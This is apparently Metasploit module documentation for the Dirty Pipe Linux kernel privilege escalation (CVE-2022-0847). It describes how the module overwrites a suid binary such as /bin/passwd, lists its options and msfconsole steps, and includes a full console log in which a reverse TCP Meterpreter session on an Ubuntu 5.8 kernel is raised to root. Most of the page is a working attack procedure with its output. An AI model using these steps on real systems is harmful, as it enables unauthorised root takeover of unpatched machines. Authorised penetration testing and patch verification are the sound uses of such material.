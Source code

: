 ## Vulnerable Application

This exploit targets a vulnerability in the Linux kernel since 5.8, that allows
writing of read only or immutable memory.

The vulnerability was fixed in Linux 5.16.11, 5.15.25 and 5.10.102.
The module exploits this vulnerability by overwriting a suid binary with the
payload, executing it, and then writing the original data back.

There are two major limitations of this exploit: the offset cannot be on a page
boundary (it needs to write one byte before the offset to add a reference to
this page to the pipe), and the write cannot cross a page boundary.
This means the payload must be less than the page size (4096 bytes).

## Verification Steps

* Start `msfconsole`
* Get a non-root shell/meterpreter session
* `use exploit/linux/local/cve_2022_0847_dirtypipe`
* `set SESSION <session>`
* `set LHOST <lhost>`
* `run`

## Options

### WRITEABLE_DIR

This indicates the location where you would like the payload and exploit stored, as well
as serving as a location to store the various files and directories created by the exploit itself.
The default value is `/tmp`

### SUID_BINARY_PATH

This option is the path of the remote suid binary that will be overwritten with the payload.
The default value is `/bin/passwd`, which should be present on most Linux distributions.

## Scenarios

### Ubuntu 20.10 x64, Kernel Linux 5.8.0-25-generic

```
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.140.1:4444
[*] Sending stage (3020772 bytes) to 192.168.140.139
[*] Meterpreter session 1 opened (192.168.140.1:4444 -> 192.168.140.139:55512 ) at 2022-03-10 09:54:38 -0600

meterpreter > getuid
Server username: dirtypipe
meterpreter > sysinfo
Computer     : 192.168.140.139
OS           : Ubuntu 20.10 (Linux 5.8.0-25-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > background
[*] Backgrounding session 1...
msf exploit(multi/handler) > use exploit/linux/local/cve_2022_0847_dirtypipe
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf exploit(linux/local/cve_2022_0847_dirtypipe) > set session 1
session => 1
msf exploit(linux/local/cve_2022_0847_dirtypipe) > set lhost 192.168.140.1
lhost => 192.168.140.1
msf exploit(linux/local/cve_2022_0847_dirtypipe) > run

[!] SESSION may not be compatible with this module:
[!]  * missing Meterpreter features: stdapi_railgun_api
[*] Started reverse TCP handler on 192.168.140.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Linux kernel version found: 5.8.0
[*] Writing '/tmp/.gxywtu' (35592 bytes) ...
[*] Executing exploit '/tmp/.gxywtu /bin/passwd'
[*] Sending stage (3020772 bytes) to 192.168.140.139
[+] Deleted /tmp/.gxywtu
[*] Meterpreter session 2 opened (192.168.140.1:4444 -> 192.168.140.139:55514 ) at 2022-03-10 09:55:03 -0600

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.140.139
OS           : Ubuntu 20.10 (Linux 5.8.0-25-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

